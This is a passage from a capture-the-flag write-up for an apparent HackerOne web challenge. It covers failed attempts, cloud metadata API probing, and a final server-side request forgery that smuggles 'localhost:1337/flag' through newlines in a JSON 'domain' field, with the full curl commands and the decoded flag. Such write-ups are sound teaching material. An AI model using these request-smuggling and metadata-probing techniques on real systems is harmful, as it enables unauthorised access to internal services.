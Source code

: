 ## 10 hours sidetrack

So, after missing the flag with so little I started trying other stuff.
I tried making requests to a server I control and sending different responses, both on the DNS and HTTP level.
I tried command injections, SQL injections noSQL injections, XXE, XSS (in case there was some kind of monitoring) and memory corruption techniques but it resulted in nothing.
I tried a bunch of different encoding tricks to try to get "?" or "%" into the URL.
I also found out the server was hosted at [Digital Ocean](https://www.digitalocean.com/) and called [their metadata API](https://developers.digitalocean.com/documentation/metadata/).
This gave me internal IP adresses and other data which could have been interesting in other scenarios.
I also looked at the Apache2 /server-status page where I could see requests from all the other competitors. I even ran a monitor on this for a while in case "the admin" was visitng some secret URL.

## Resolution

After a while I revisited trying some local ports on the server. I think I might have seen the number 1337 somewhere and thought I'd test it just for fun.
Running my script with the equivalent of the following two, the flag suddenly popped out.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212\nlocalhost:1337/flag\n212.zeta-two.com"}'

```
{"next":"\/read.php?id=4"}
```
  
> curl 'http://104.236.20.43/read.php?id=3' -H 'Host: admin.acme.org' -b admin=yes

```
{"data":"RkxBRzogQ0YsMmRzVlwvXWZSQVlRLlRERXBgdyJNKCVtVTtwOSs5RkR7WjQ4WCpKdHR7JXZTKCRnN1xTKTpmJT1QW1lAbmthPTx0cWhuRjxhcT1LNTpCQ0BTYip7WyV6IitAeVBiL25mRm5hPGUkaHZ7cDhyMlt2TU1GNTJ5OnovRGg7ezYK"}
```
  
> echo "RkxBRzogQ0YsMmRzVlwvXWZSQVlRLlRERXBgdyJNKCVtVTtwOSs5RkR7WjQ4WCpKdHR7JXZTKCRnN1xTKTpmJT1QW1lAbmthPTx0cWhuRjxhcT1LNTpCQ0BTYip7WyV6IitAeVBiL25mRm5hPGUkaHZ7cDhyMlt2TU1GNTJ5OnovRGg7ezYK" |base64 -d

```
FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{\%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6
```

Apparently there was a local nginx instance running on port 1337. Who does that?!? With a mix of relief, happiness and disgust I finally got the flag and solved the challenge.
Had I just scanned a few more ports before moving on, I would have had the flag within hours of starting this, now it turned into a week long exploration of web techniques.

Thank you Hackerone for this challenge. I enjoyed (most parts of) solving it a lot.
